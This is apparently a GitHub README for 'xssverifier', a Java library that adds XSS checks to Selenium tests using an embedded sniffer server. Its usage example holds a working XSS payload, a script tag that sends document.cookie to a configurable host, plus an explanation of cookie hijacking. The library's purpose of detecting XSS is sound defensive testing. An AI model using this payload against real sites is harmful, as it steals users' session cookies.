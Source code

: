# xssverifier
A little project for XSS-safe verification for Selenium

        <dependency>
            <groupId>com.github.eljah</groupId>
            <artifactId>xssverifier</artifactId>
            <version>0.1</version>
        </dependency>

How does the XSS and XSS sniffers work? XSS injection is a value inserted into some input text field that appears in some other pages. If in other pages where the value is displayed, the page can allow malicious javascript from the value to work. Javascript can just create an image or iframe with url on the third-party server. The URL of the resource requested by the malicious javascript will contain the value of document.cookie. If page allows maliciuos javascript to request image or iframe with URL like http://host:port//resource_prefix?document.cookie the third-party server, the sniffer, will receive the hijacked cookie value. That means that XSS attack has succeed and the attacker can use the cookie.

To prove the wep applications are XSS-free Selenium test can be used (o you can instrument your already existing test with XSS check). In the beggining of test scenario insert the injected value to some input field. Then go through all application pages that show this kind of values with Selenium. If at least at one page XSS succeed, the sniffer will receive the cookie, the XSS succeed flag will be set. In the end of the test verify that sniffer was not requested at all.

Usage example:
```java
XSSCheck x=XSSVerifier.createNewCheck(4567,"xss.gif","<script> img = new Image(); img.src = \"http://%1$s:%2$d/%3$s?\"+document.cookie; </script>");
/* 4567 is a port number where the XSS checker's embbedded http server runs, xss.gif is a resource, the last string is  javascript injection template*/

//check occurs behind the scene
//to ensure it works open localhost:4567/xss.gif in your browser

while (!x.getXSSURLCalledStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 1...");
}

//the XSS host and resource were requested but not nessessarily some parameter was passed
//to ensure it works open localhost:4567/xss.gif?sometext in your browser

while (!x.getXSSCookiePassedStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 2...");
}

//the XSS host and resource were requested and some parameter was passed but that was not the hijacked cookie
//to ensure it works open localhost:4567/xss.gif?visited=02022015 in your browser

while (!x.getXSSCookieHijacked("visited"))
{
    Thread.sleep(1000);
    System.out.println("wait 3...");
}

//the XSS host and resource were requested, some parameter was passed and this parameter is cookie named visited
//so the particular cookie was hijacked and that was verified
```

